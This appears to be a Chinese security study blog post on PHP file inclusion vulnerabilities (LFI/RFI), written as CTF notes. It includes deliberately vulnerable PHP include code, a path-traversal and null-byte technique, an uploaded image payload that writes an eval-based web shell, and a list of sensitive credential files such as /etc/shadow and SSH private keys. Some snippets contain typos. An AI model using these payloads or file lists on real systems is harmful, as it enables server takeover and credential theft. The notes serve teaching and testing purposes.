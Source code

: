 ```yaml
---
layout:     post
title:      Web笔记（八）文件包含漏洞
subtitle:   这个系列是整理学习安全的笔记，包括Web和PWN的一些知识。本章是学习文件包含漏洞，记录的一些笔记。
date:       2020-12-02
author:     HouKC
header-img: img/post-bg-rwd.jpg
catalog:    true
tags:
    - CTF
    - web
    - 网络安全
    - 学习笔记
    - 文件包含
---
```




## 0x00  文件包含漏洞简介

程序开发人员一般会把重复使用的函数写到单个文件中，需要使用某个函数时直接调用此文件，而无需再次编写，这种文件调用的过程一般被称为文件包含。

程序开发人员一般希望代码更灵活，所以将被包含的文件设置为变量，用来进行动态调用，但正是由于这种灵活性，从而导致客户端可以调用一个恶意文件，造成文件包含漏洞。

几乎所有脚本语言都会提供文件包含功能，但文件包含漏洞在PHP Web Application中居多，而在JSP、ASP、ASP.NET程序中却非常少，甚至没有，这是有些语言设计的弊端。

在PHP中经常出现包含漏洞，但这并不意味着其他语言不存在。



## 0x01 常见文件包含函数

- include()    执行到include时才包含文件，找不到被包含文件时只会产生警告，脚本将继续执行。

- require()    只要程序一运行就包含文件，找不到被包含的文件时会产生致命错误，并停止脚本。

- include_once()和require_once()    若文件中代码已被包含则不会再次包含。



## 0x02 利用条件

- 程序用include()等文件包含函数通过动态变量的范式引入需要包含的文件

- 用户能够控制该动态变量



## 0x03 漏洞危害

- 执行任意代码

- 包含恶意文件控制网站
- 甚至控制服务器



## 0x04 漏洞分类

#### 1. 本地文件包含

可以包含本地文件，在条件允许时甚至能执行代码。

- 上传图片马，然后包含
- 读敏感文件，读PHP文件
- 包含日志文件getshell
- 包含/proc/self/envion文件getshell
- 包含data:或php://input等伪协议
- 若有phpinfo则可以包含临时文件

#### 2. 远程文件包含

可以直接执行任意代码。

```
http://xxx.com/xxx.php?file=http://xxx.com/x.php
```

**远程文件包含要保证php.ini中allow_url_fopen和allow_url_include要为On**



## 0x05 漏洞挖掘

	* 
通过白盒代码审计
* 
黑盒工具挖掘
* 
  AWVS、Appscan、Burpsuite
* 
  w3af



## 0x06 本地包含漏洞

#### 1. 文件包含漏洞利用的条件

- inlcude()等函数通过动态变量的方式引入需要包含的文件
- 用户能控制该动态变量

```php
<?php
$test=$_GET['c'];
include($test);
?>
```

保存为include.php，在同一个目录下创建test.txt内容为`<?php phpinfo()?>`

然后访问测试：http://127.0.0.1/test/include.php?c=test.txt

#### 2. 本地包含漏洞注意事项

	* 
相对路径：../../../../etc/password
* 
%00截断包含（PHP<5.3.4）（magic_quotes_gpc=off才可以，否则%00会被转义）

```php
<?php
include $_GET['x'].".php";
echo $_GGET['x'].".php";
?>
```



#### 0x07 利用技巧
首先上传图片马，马包含以下代码：

```php
<?fputs(fopen("shell.php"),"w"),"<?php eval($_POST[x]);?>"?>
```

上传后图片路径为假设为/uploadfile/x.jpg，当访问http://127.0.0.1/xx.php?page=uploadfile/x.jpg时，将会在文件夹下生成shell.php，内容为

```php
<?php eval($_POST[x]);?>
```



## 0x08 读敏感文件

#### 1. Windows

- C:\boot.ini  //查看系统版本
- C:\Windows\System32\inetsrv\MetaBase.xml  //IIS配置文件
- C:\Windows\repair\sam  //存储系统初次安装的密码
- C:\Program Files\mysql\my.ini  //Mysql配置
- C:\Program Files\mysql\data\mysql\user.MYD  //Mysql root
- C:\Windows\php.ini  //php配置信息
- C:\Windows\my.ini  //Mysql配置信息

#### 2. Linux

- /root/.ssh/authorized_keys
- /root/.ssh/id_rsa
- /root/.ssh/id_rsa.keystore
- /root/.ssh/known_hosts
- /etc/passwd
- /etc/shadow
- /etc/my.cnf
- /etc/httpd/conf/httpd.conf
- /root/.bash_history
- /root/.mysql_history
- /proc/self/fd/fd[0-9]*   （文件标识符）
- /proc/mounts
- /proc/config.gz



